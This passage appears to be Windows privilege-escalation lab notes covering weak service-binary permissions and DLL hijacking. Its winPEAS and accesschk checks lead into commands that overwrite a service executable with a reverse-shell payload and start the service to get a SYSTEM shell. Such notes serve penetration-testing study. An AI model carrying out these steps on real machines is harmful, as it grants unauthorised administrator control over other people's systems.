 Check if any service has an executable that is writable using `winPEAS` or `accesschk`.
```powershell
winPEASany.exe quiet servicesinfo

filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"]
    File Permissions: Everyone [AllAccess]
    
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Check if the user can start/stop the service.
```powershell
accesschk.exe /accepteula -ucqv user filepermsvc
```

Create a backup.
```powershell
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

Overwrite `"C:\Program Files\File Permissions Service\filepermservice.exe"` with a reverse shell payload.
```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

Start a listener on the attacker machine and then start the service to spawn a SYSTEM shell.
```powershell
net start filepermsvc
```

### DLL Hijacking
Often a service will try to load functionality from a libary called Dynamic Link Library. If a directory of a DLL is writable and is missing from the system, escalation of privileges may be possible.

Check for missing DLLs using `winPEAS` or with `Procmon` by setting two filters.
```powershell
winPEASany.exe quiet servicesinfo

"Result" "contains" "not found"
"Path" "ends with" ".dll"
```

Check if the user can start/stop the service.
```powershell
accesschk.exe /accepteula -ucqv user dllsvc
```

Query the service configuration and make sure it runs with SYSTEM privileges.
```powershell
sc qc dllsvc

BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
SERVICE_START_NAME : LocalSystem
```

In a real scenario, `"C:\Program Files\DLL Hijack Service\dllhijackservice.exe"` will get copied onto another Windows machine with administrator rights so that `Procmon` can be used on the executable for analysis.
